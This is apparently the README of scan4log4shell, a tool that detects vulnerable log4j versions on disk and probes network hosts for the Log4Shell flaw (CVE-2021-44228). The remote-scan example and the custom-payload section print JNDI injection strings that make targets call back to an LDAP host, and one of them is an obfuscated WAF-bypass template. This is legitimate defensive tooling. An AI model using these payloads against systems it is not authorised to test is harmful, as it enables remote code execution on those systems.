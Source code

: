 # scan4log4shell
> Scanner to detect vulnerable log4j versions on your file-system or to send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:
- Lightweight Directory Access Protocol (LDAP)
- Secure LDAP (LDAPS)
- Remote Method Invocation (RMI)
- Domain Name Service (DNS)

## Usage 
```bash
Usage:
  scan4log4shell [command]

Available Commands:
  completion  Prints shell autocompletion scripts for scan4log4shell
  help        Help about any command
  local       Detect vulnerable log4j versions on your file-system
  remote      Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability

Flags:
  -h, --help            help for scan4log4shell
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
      --version         version for scan4log4shell

Use "scan4log4shell [command] --help" for more information about a command.
```

## Local
Detect vulnerable log4j versions on your file-system
```bash
Usage:
  scan4log4shell local [paths] [flags]

Flags:
  -e, --exclude stringArray      path to exclude
  -h, --help                     help for local
      --ignore-ext stringArray   ignore .jar | .zip | .war | .ear | .aar
      --ignore-v1                ignore log4j 1.x versions
      --print-summary            print a summary

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```

### Example
```bash
make run-local

scanner_1  | 2021/12/16 07:32:25 [i] Log4Shell CVE-2021-44228 Local Vulnerability Scan
scanner_1  | 2021/12/16 07:32:25 [i] Start scanning path /walk
scanner_1  | ---------
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Possibly vulnerable file identified: /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-spring-boot-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-api-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-core-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Log4j V1 identified: /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar
scanner_1  | 2021/12/16 07:32:25 [i] Completed scanning
```
## Remote
Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability
```
Usage:
  scan4log4shell remote [flags]

Flags:
      --caddr string            address to catch the callbacks (eg. ip:port)
      --cidr string             subnet to scan (default "192.168.1.0/28")
      --fields-file string      use custom field from file
      --headers-file string     use custom headers from file
  -h, --help                    help for remote
      --listen                  start a listener to catch callbacks
      --no-redirect             do not follow redirects
      --no-user-agent-fuzzing   exclude user-agent header from fuzzing
      --no-wait-timeout         wait forever for callbacks
      --payloads-file string    use custom payloads from file
  -p, --port stringArray        port to scan (default [8080])
      --proxy string            proxy url
      --schema string           schema to use for requests (default "https")
  -t, --type string             get, post or json (default "get")
      --waf-bypass              extend scans with WAF bypass payload
  -w, --wait duration           wait time to catch callbacks (default 5s)

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```
### Example
```bash
make run-remote

scanner_1  | 2021/12/16 09:57:24 [i] Log4Shell CVE-2021-44228 Remote Vulnerability Scan
scanner_1  | 2021/12/16 09:57:24 [i] Listening on 172.20.0.30:4444
scanner_1  | 2021/12/16 09:57:24 [i] Start scanning CIDR 172.20.0.0/24
scanner_1  | ---------
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.0:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.1:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.2:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.3:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.4:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.5:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.6:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.7:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.8:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.9:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.10:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.11:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.12:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.13:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.14:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.15:8080
scanner_1  | 2021/12/16 09:57:24 [!] Possibly vulnerable host identified: 172.20.0.13:60614
```

### Custom Payload
If you specify a file with self-created payloads. You can use the following placeholders for the callback address and resource:
- {{ .CADDR }}
- {{ .Resource }}

For example: 
```
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//{{ .CADDR }}/{{ .Resource }}}
```

## References
- https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228


## License
[MIT](LICENCE)
